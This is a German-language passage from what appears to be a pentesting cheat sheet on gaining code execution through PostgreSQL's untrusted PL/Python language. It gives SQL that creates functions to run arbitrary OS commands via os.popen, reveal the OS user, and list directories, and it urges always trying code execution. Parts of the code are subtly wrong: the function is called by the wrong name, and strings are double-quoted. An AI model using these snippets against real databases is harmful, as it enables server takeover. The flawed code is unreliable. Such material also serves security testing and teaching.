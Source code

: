 Beachten Sie, dass es möglich ist, die sicheren Versionen als "unsicher" zu kompilieren. Überprüfen Sie [**dies**](https://www.robbyonrails.com/articles/2005/08/22/installing-untrusted-pl-ruby-for-postgresql.html) zum Beispiel. Es lohnt sich also immer zu versuchen, ob Sie Code ausführen können, selbst wenn Sie nur die **vertrauenswürdige** Version finden.

## plpythonu/plpython3u

{{#tabs}}
{{#tab name="RCE"}}
```sql
CREATE OR REPLACE FUNCTION exec (cmd text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.popen(cmd).read()
#return os.execve(cmd, ["/usr/lib64/pgsql92/bin/psql"], {})
$$
LANGUAGE 'plpythonu';

SELECT cmd("ls"); #RCE with popen or execve
```
{{#endtab}}

{{#tab name="Get OS user"}}
```sql
CREATE OR REPLACE FUNCTION get_user (pkg text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.getlogin()
$$
LANGUAGE 'plpythonu';

SELECT get_user(""); #Get user, para is useless
```
{{#endtab}}

{{#tab name="List dir"}}
```sql
CREATE OR REPLACE FUNCTION lsdir (dir text)
RETURNS VARCHAR(65535) stable
AS $$
import json
from os import walk
files = next(walk(dir), (None, None, []))
return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})[:65535]
$$
LANGUAGE 'plpythonu';

SELECT lsdir("/"); #List dir
```
{{#endtab}}
